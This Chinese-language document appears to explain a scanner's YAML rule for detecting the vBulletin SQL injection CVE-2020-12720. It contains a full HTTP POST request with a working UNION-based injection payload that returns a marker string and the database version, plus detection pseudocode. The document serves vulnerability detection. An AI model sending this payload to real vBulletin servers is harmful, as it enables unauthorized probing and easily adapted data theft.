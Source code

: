# vBulletin SQL注入漏洞（CVE-2020-12720）探测原理说明

## 1. 漏洞简介

vBulletin 5.5.6pl1之前、5.6.0至5.6.0pl1、5.6.1至5.6.1pl1版本存在SQL注入漏洞。由于访问控制不当，攻击者可通过特定接口注入恶意SQL语句，进而获取敏感数据或执行系统命令。

## 2. 影响范围

- 受影响产品：vBulletin 5.5.6pl1之前、5.6.0至5.6.0pl1、5.6.1至5.6.1pl1
- 只要未打补丁的相关版本均可能被利用

## 3. 漏洞原理

该漏洞源于接口未正确校验用户权限，导致攻击者可构造恶意POST请求，将SQL注入payload传递给后端数据库，造成任意SQL语句执行。

## 4. 利用方式与攻击流程

1. 攻击者构造特定POST请求，向目标接口注入SQL语句。
2. 数据库执行恶意SQL，返回包含特征字符串的响应。
3. 攻击者据此判断漏洞是否存在，甚至进一步利用。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则通过注入特征payload并检测响应内容进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送POST请求到如下接口：
  ```
  POST /ajax/api/content_infraction/getIndexableContent HTTP/1.1
  Host: <目标主机>
  X-Requested-With: XMLHttpRequest
  Accept: */*
  Content-Type: application/x-www-form-urlencoded

  nodeId%5Bnodeid%5D=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,CONCAT('vbulletin','rce',@@version),19,20,21,22,23,24,25,26,27-- -
  ```

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应体需包含`vbulletinrce`，表明SQL注入成功。

### 5.3 判定逻辑

- 只有当响应体中包含`vbulletinrce`，才判定目标存在SQL注入漏洞。

- **判定流程伪代码**：
  ```pseudo
  payload = "1 union select ... CONCAT('vbulletin','rce',@@version) ..."
  发送POST /ajax/api/content_infraction/getIndexableContent，参数为payload
  若响应体含vbulletinrce：
      判定目标存在SQL注入漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的POST请求到getIndexableContent] --> B{响应体含vbulletinrce?}
      B -- 否 --> F[无漏洞或未触发]
      B -- 是 --> E[判定目标存在SQL注入漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [GitHub Exploits](https://github.com/rekter0/exploits/tree/master/CVE-2020-12720)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2020-12720)
- [vBulletin官方安全公告](https://forum.vbulletin.com/forum/vbulletin-announcements/vbulletin-announcements_aa/4440032-vbulletin-5-6-1-security-patch-level-1)
- [PacketStorm Security 1](http://packetstormsecurity.com/files/157716/vBulletin-5.6.1-SQL-Injection.html)
- [PacketStorm Security 2](http://packetstormsecurity.com/files/157904/vBulletin-5.6.1-SQL-Injection.html) 